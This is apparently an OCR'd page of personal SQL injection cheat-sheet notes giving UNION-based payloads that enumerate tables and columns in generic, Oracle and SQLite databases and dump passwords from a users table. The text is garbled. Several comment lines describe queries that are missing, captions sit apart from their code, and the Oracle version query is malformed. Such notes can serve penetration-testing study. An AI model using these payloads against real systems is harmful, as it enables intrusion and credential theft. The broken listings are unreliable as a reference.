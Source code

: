 ### Old Notes

```sql
UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM information_schema.tables
```

```sql
column_name FROM information_schema.columns WHERE table_name='users'
```
	Retrieves column names from the _users_ table  

```sql
UNION (SELECT COLUMN_NAME, 2, 3 FROM information_schema.columns WHERE TABLE_NAME='users'
```
 
#### Oracle
```sql
(SELECT banner FROM $version)
```
	DB metadata  

-- Shows db version  
-- Shows user and hostname of the account interacting w/ the db  
-- Shows name of the db in use  
-- Shows account name used for Windows authentication used by the db  
-- Enumerates through all tables listed in schema  
-- Retrieves column names from the _users_ table  

#### sqlite  
```sql
sqlite_schema  
sqlite_master
```
	DB metadata  

```sql
sqlite_version()
```
	Shows db version  


-- Shows user and hostname of the account interacting w/ the db  
-- Shows name of the db in use  
-- Shows account name used for Windows authentication used by the db  

```sql
(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%')
```
	Enumerates through all tables listed in schema  

```sql
(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users')
```
	Retrieves column names from the _user_s table  

```sql
UNION SELECT 1,group_concat(password) FROM users-- -
```
	Dump passwords from _users_ table  
  